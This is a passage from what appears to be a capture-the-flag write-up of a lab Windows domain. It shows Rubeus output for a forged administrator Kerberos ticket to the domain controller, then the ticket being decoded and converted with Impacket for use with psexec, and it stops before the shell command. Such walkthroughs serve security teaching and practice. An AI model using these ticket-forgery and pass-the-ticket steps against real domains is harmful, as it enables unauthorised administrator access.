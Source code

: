 #### Fails

In theory, I should be able to use this ticket right now. `Rubeus` shows
the ticket in this session:



    *Evil-WinRM* PS C:\programdata> .\Rubeus.exe klist
    ...[snip]...
    Action: List Kerberos Tickets (Current User)

    [*] Current LUID    : 0x65f382

      UserName                 : support
      Domain                   : SUPPORT
      LogonId                  : 0x65f382
      UserSID                  : S-1-5-21-1677581083-3380853377-188903654-1105
      AuthenticationPackage    : NTLM
      LogonType                : Network
      LogonTime                : 5/27/2022 12:15:24 PM
      LogonServer              : DC
      LogonServerDNSDomain     : support.htb
      UserPrincipalName        : support@support.htb

        [0] - 0x12 - aes256_cts_hmac_sha1
          Start/End/MaxRenew: 5/27/2022 12:38:17 PM ; 5/27/2022 10:38:17 PM ; 6/3/2022 12:38:17 PM
          Server Name       : cifs/dc.support.htb @ SUPPORT.HTB
          Client Name       : administrator @ SUPPORT.HTB
          Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)



For me, it doesn't work.

#### Remote Use

I'll grab the last ticket `Rubeus` generated, and copy it back to my
machine, saving it as `ticket.kirbi.b64`, making sure to remove all
spaces. I'll base64 decode it into `ticket.kirbi`:



    oxdf@hacky$ base64 -d ticket.kirbi.b64 > ticket.kirbi



Now I need to convert it to a format that Impact can use:



    oxdf@hacky$ ticketConverter.py ticket.kirbi ticket.ccache
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

    [*] converting kirbi to ccache...
    [+] done



I can use this to get a shell using `psexec.py`:

